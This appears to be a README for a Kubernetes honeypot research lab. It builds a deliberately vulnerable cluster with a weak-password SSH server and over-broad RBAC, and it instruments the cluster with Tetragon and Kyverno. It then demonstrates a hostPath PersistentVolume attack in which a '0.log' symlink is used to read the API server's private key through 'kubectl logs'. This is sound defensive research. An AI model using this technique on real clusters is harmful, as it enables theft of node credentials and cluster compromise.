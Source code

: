 # Honeypots Research

## Simple Attack Tree

As a simple example attack tree, we will look at the attack path made possible if an attacker can create hostPath Persistent Volumes on a cluster, inspred by [this blog post](https://jackleadford.github.io/containers/2020/03/06/pvpost.html).

```mermaid
flowchart TD
    A[Access sensitive \ninfo on node] --> |*kubectl logs BAD_POD*| B{Escape from \ncontainer \non node}
    A --> more1[. . . . . . . .]
    B -->|*container can run as root*| C[Dangerous Security Context]
    B --> |*writeable hostPath to /var/log*| D{Pod created \nwith PVC referencing \nhostPath PV}
    D --> E[Credentials] 
    D --> |*pod can create Pods/PVs/PVCs*| F[Misconfigured RBAC]
    E --> |*leaked creds used*| G[Initial access to \npod in cluster]
    E --> more2[. . . . . . . .]
```

## Demo

Bring all the infra up (known issue: wait conditions):
```bash
make all-up
```
Put the traces on
```bash
make traces
```

Create redpanda
```bash
make redpanda fluent
```

For Clickhouse, UI is this http://dash.tabix.io/signin  , so first need port-fwd

Go to second shell for STDOUT observations (dont kill this shell)
```bash
make secondshell-on
```
Back to first shell, run
```bash
make attack
```


Spin up a kind cluster:

```bash
make cluster-up
```

Install [Tetragon](https://tetragon.io/):

```bash
make tetragon-install
```

Set up a [vcluster](https://www.vcluster.com/) within our kind cluster where our honeypot workloads will run:

```bash
make vcluster-deploy
```

Install [Kyverno](https://kyverno.io/) and enforce baseline Pod Security Standards across the cluster:

```bash
make kyverno-install
```

Install an intentionally vulnerable SSH server:

```bash
make ssh-install
```

Deploy a local storage class for our vcluster:

```bash
make sc-deploy
```

Set up a potentially dangerous Cluster Role and Cluster Role Binding enabling a default Service Account to create pods, persistent volumes, and persistent volume claims:

```bash
make rbac
```

Set up port forwarding to our SSH server:

```bash
make port-forward
```

Switch to a new terminal tab and copy some scripts over to the SSH server. The password is `root`. This represents initial attacker access to our honeypot cluster, via credential compromise:

```bash
make copy-scripts
```

SSH into the server using the same password:

```bash
make ssh-connect
```

From within the SSH session, run a malicious script which will create a HostPath type PersistentVolume which will allow a pod to access `/var/log` on the host (inspred by [this blog post](https://jackleadford.github.io/containers/2020/03/06/pvpost.html)), using the [Python Kubernetes client library](https://github.com/kubernetes-client/python):

```bash
source priv-create.sh
```

Switch to a new terminal tab and observe the dangerous pod running:

```bash
kubectl get po
```

Let's show that an attacker could use this pod to read arbitrary information from a node in the cluster (in this case we will read the K8s API server's private key). Exec into the pod:

```bash
make exec
```

Run the following from within the pod to write a symlink to its `0.log` file, which is followed by the Node upon `kubectl logs PODNAME` in order to read any file from the Node. `cd` into the directory `/hostlogs/pods/vcluster_bad-pv-pod_......../bad-pv-pod/` and run the following:

```bash
rm 0.log && ln -s /etc/kubernetes/pki/apiserver.key 0.log
```

If the service account compromised by our attacker could inspect the logs of the containers it can create, the attacker could now run:

```bash
k logs bad-pv-pod --tail=-1
```

Note that we can see the first line of the private key.

## Teardown

```bash
make cluster-down
```

## Note for Mac Users
Certain Docker Desktop versions will lead to the following error 
```
level=fatal msg="Load overlay network failed" error="program cil_from_overlay: replacing clsact qdisc for interface cilium_vxlan: operation not supported" interface=cilium_vxlan subsys=datapath-loader
```
downgrading or using an alternative (Orbstack) will solve this . 
